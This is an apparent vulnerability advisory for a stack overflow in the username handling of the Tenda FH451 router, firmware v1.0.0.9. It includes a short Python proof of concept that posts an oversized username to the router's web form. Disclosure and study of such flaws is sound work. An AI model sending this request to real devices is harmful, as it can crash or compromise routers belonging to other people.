

# Tenda FH451 fromPptpUserAdd
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the username parameter in the fromPptpUserAdd function.

### Vulnerability details
In function fromPptpUserAdd line 26, it reads in a user-provided parameter `username`. The variable `Var` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "username": "a" * 2000,
    "opttype": "1"
}

response = requests.post(url, data=data)
print(response.text)
```